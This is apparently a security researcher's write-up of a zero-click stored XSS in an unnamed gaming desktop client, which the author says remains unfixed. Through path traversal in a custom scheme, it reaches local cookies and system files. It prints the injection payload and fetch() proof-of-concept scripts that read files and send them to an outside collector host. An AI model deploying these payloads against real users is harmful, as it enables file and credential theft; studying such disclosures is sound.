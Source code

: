 # How did I break out of the sandbox using built-in feature

One day I decided to test a famous gaming company’s desktop client (Sadly they haven’t fixed it yet :( ), and I ended up finding a 0Click System File Read

## About the target:

It is a desktop client using Chromium Embedded Framework https://github.com/chromiumembedded/cef for rendering all the HTML/JS files, and it is used to help users (Gamers) install their games and track progress on each game.

## Chat feature and useless XSS in notification:

While spraying payloads around the desktop client, I stumbled on a stored XSS that gets rendered on the notification pop-up.

Briefly, this XSS wasn’t that useful because the client is storing cookies on files and the there’s a limitation on the vulnerable input (30 characters) payload like this would work `<script src=https://lol5.xyz/>`

## Failed attempt finding 1Days on CEF library:

After reading every page on the library’s wiki 

[cef /](https://bitbucket.org/chromiumembedded/cef/wiki/browse/)

and trying some of CVE’s  POCs in order to achieve code execution or DOS, all attempts finished with frustration and failure.

And the most frustrating part is the framework’s javascript API is so sandboxed and limited that I can’t call for example`file://` from object and iframe tags.

## PAK files for the truth:

After a day I went back and tried to analyze the client and its features, while exploring some of the client file, I noticed some`.PAK` files, for those who can’t get what is happening  from my experience with pentesting thick clients, usually PAK files are used to store static files that could be rendered on the application.

Extracted the files and read some of HTML files and js files, here something caught my attention which was code that looked like this:

```html
<style>
  @import url("schema://localhost/cache/sytle.css") ;
</style>
```

## How static files are server to the client:

From my understanding of the pak files and how the client is functioning and visualized the flow with this modest design 😑.

![uply.png](How%20did%20I%20break%20out%20of%20the%20sandbox%20using%20built-in%20%20a70e3f37f0ee428389062355f2dfc3e9/uply.png)

the question here is how I used this to my advantage?

When I saw this I had a theory of using the schema to retrieve the cookies from client’s files.

I made a POC that looks like this :

```jsx
Promise.all(   fetch('schema://localhost/cache/style.css').then(x => x.text())  ).then((sampleResp) => {   document.location='http://3w0v6pygzk4cbjxec4qdnlja41avyk.oastify.com/?payload='+sampleResp;  });
```

Then went to the vulnerable input and put my payload `<script src=https://[lol5.xyz](http://lol5.xyz)/>`  where lol5.xyz is a local domain where I’m hosting the POC, and I was able to retrieve the css file.

after this, I went for the cookies and I got success.

But I didn’t stop here, I remembered that the client asks for admin privileges when opening it.

then I tried to traverse back to the system files, I made a POC :

```jsx
Promise.all(   fetch('schema://localhost/cache/../../../../../Windows/LogAdmins.txt').then(x => x.text())  ).then((sampleResp) => {   document.location='http://3w0v6pygzk4cbjxec4qdnlja41avyk.oastify.com/?payload='+sampleResp;  });
```

Since my computer is linked to an AD that’s why I aimed for the `LogAdmins.txt` , finally I was able to retrieve LogAdmins.txt file. 

![loool.png](How%20did%20I%20break%20out%20of%20the%20sandbox%20using%20built-in%20%20a70e3f37f0ee428389062355f2dfc3e9/loool.png)

funny thing is that XSS requires no user interaction and I can execute it on any user using this desktop client.